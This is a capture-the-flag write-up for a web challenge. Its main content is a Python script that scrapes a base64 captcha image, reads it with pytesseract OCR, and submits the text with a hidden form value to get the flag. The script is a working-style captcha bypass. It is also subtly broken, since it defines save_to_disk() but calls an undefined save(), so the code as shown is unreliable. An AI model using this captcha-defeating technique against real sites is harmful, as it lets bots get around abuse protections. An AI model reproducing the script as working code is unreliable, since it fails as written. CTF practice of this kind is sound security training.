 # CaptchaTheFlag

# Requirements

- Python
- Pytesseract

# Description

```
Are you too fast to be human?

Link: https://web.ctf.devclub.in/dev/4/
```

![Web page](image.png)

# Observation

We can see that here the captcha is updated everytime we reload the page. We need to scrape the image, extract the text and submit it in the form.

# Exploitation

```py
import requests, io
from bs4 import BeautifulSoup
import base64
import pytesseract
from PIL import Image

URL = 'https://web.ctf.devclub.in/dev/4/'

def save_to_disk(byts):
    stream = io.BytesIO(byts)
    img = Image.open(stream)
    text = pytesseract.image_to_string(img).strip()
    return text

def attack():
    r = requests.get(URL)
    content = r.content
    soup = BeautifulSoup(content, 'html5lib')
    tag = soup.find('img')
    byts = base64.b64decode(
        tag['src'][len('data:image/jpeg;base64, '):])
    text = save(byts)
    hidden_txt = soup.find('input', {'type': 'hidden'}).get('value')
    # print(text, hidden_txt)
    r = requests.post(URL, data={
        'tt': hidden_txt,
        'captcha': text
    })
    print(r.text)

attack()
```

On running the script 5-7 times, we get the following flag

```devctf{0k@y!_y0u_@re_@_hum@n}```